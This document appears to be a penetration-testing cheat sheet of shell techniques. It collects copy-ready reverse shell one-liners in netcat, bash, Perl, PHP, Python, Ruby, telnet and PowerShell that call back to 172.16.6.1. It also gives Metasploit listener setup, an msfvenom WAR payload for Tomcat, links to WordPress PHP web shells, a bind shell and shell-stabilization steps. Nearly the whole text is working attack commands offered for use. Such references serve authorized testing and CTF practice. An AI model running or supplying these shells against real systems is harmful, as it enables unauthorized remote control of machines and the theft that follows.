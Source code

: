 # Shells

### Best Resource:

{% embed url="https://revshells.com" %}

### Stabilizing Shells

* Two ways to stabilized shells on Linux

```
script /dev/null -c bash
```

* Or:

```
#get installed python version
which python3 
which python 
#use whichever version of python is installed 
python3 -c 'import pty;pty.spawn("/bin/bash");'
python -c 'import pty;pty.spawn("/bin/bash");'
#gives access to clear command
export TERM=xterm
#background remote shell
CTRL+Z
#on your local station
stty raw -echo;fg
ENTER Twice
stty -a #on local shell
#on remote session
stty rows 61 cols 116 
```

### Reverse Shells

**Listensers**

```
nc -nlvp 9001
```

* Always set up a **netcat** listener before executing a bash reverse shell
* You can also use **multi/handler** from **metasploit** to catch incoming reverse shells

```
msfconsole
use exploit /multi/handler
set LHOST 172.16.6.1
set LPORT 9001
run
```

**Netcat Reverse Shell**

```
nc 172.16.6.1 9001 -e /bin/sh
```

* Standard **netcat** reverse shell (only works with some versions of nc)

### **Bash Reverse Shells**

* Good first attempt at a shell.

```
bash -i >& /dev/tcp/172.16.6.1/1234 0>&1
```

* Best **bash** reverse shell option, has the highest percentage success rate.&#x20;

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1 | nc 172.16.6.1 1234 >/tmp/f
```

### **Perl Reverse Shell**

```
perl -e 'use Socket;$i="172.16.6.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

### **PHP Reverse Shell**

```
php -r '$sock=fsockopen("172.16.6.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

* Standard PHP reverse shell typically used for injection on the terminal environment or into a web application

```
$sock=fsockopen("172.16.6.1", 1234);exec("/bin/sh -i <&3 >&3 2>&3");
```

* This php shell is used when you can inject php code into a theme file of a CMS (think wordpress)
* Also have the option of attempting p0wny.php shell for wordpress

{% embed url="https://github.com/flozz/p0wny-shell/blob/master/shell.php" %}
p0wny.php download&#x20;
{% endembed %}

* Most effective is the php-reverse-shell.php when it comes to wordpress and php reverse shells in general&#x20;

{% embed url="https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/reverse/php_reverse_shell.php" %}
php\__reverse\__shell.php
{% endembed %}

### **Python Reverse Shell**

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("172.16.6.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

* Troubleshooting lessons

```
which python
which python3
/usr/bin/python
/usr/bin/python3
```

* Try the absolute paths when `python3` or `python` are not working to trigger your reverse shell
* Standard python reverse shell

### **Ruby Reverse Shell**

```
ruby -rsocket -e 'exit if fork;c=TCPSocket.new("172.16.6.1","1234");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```

* Linux ruby reverse shell

```
ruby -rsocket -e 'c=TCPSocket.new("172.16.6.1","1234");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```

* Windows ruby reverse shell

### **War Reverse Shell**

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=172.16.6.1 LPORT=1234 -f war > /home/kali/Documents/shell.war
```

* This will generate a war file for upload on the **Tomcat** CMS. Once uploaded click on the shell option to activate it.
* Catch this shell with **multi/handler** or just **nc**

```
msfconsole
use exploit /multi/handler
set payload java/jsp_shell_reverse_tcp
set LHOST 172.16.6.1
set LPORT 1234
run
```

### **Reverse shell over the Telnet Protocol**

```
mknod a p; telnet 172.16.6.1 1234 0<a | /bin/sh 1>a
```

* This reverse shell makes a special character file (mknod) uses telnet to call back and direct standard output to the character file via the binary /bin/sh

### Powershell

```
powershell.exe -c "$client = New-Object System.Net.Sockets.TCPClient('IP',PORT);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

### Bind Shells

### **Netcat Bind Shell**

```
nc -nlvp 1234 -e /bin/sh
```

* This is executed on the target box and waits for an incoming connection

```
nc [target box ip] 1234
```

* This is executed on your attack box to connect to the listener on the target
